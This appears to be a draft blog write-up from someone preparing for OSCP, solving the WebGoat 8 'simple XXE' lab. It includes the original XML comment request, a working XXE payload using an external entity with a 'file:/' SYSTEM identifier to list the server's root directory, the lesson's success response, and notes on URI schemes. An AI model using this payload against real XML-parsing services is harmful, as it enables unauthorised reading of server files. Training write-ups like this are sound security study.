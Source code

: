 Title: Road to OSCP: WebGoat XXE challenges
Date: 2020-02-27
Category: OSCP
Tags: websec, webgoat, xxe
Summary: Solutions for WebGoat 8 XXE tasks
Status: draft

#### Intro: simple xxe (as dubbed by authors)  
We should abuse XXE vulnerability to list root directory content on the server.  
The only entry point is a comment field under some poor cat's photo which got a hanger around his neck :)  
Upon clicking on submit button, client app makes a request with `Content-Type` header set to `application/xml`  hencethe request body contain XML payload.  
It's not a sort of convoluted document, just a couple of tags:  
```xml
<?xml version="1.0"?>
<comment>  
  <text>hi there lil cat</text>
</comment>
```


Solution is almost straightforward and based on previous section about XXE:  
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY ex SYSTEM "file:/">]>
<comment>
  <text>&ex;</text>
</comment>
```

Result:  
```json
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null,
  "assignment" : "SimpleXXE"
}
```

Here we instruct XML parser to include content of provided SYSTEM identifier that points to root directory.  
It could be assumed that SYSTEM identifier means just an URI to some kind of resource, theoretically it could use  
any scheme such as http or ftp, it our case we need a local directory content hence scheme is `file`.  
Omitted trailing slashes does not seem to have any effect in that case, it will for either with `file:///` or with `file:/`.  
As far as I know one constraint to this kind of identifiers is that they should not contain URI fragments - parts that go after a sharp (#).  
For example `http://foo.bar/?a=b#baz` is fragmented and `http://foo.bar/?a=b` is not.  
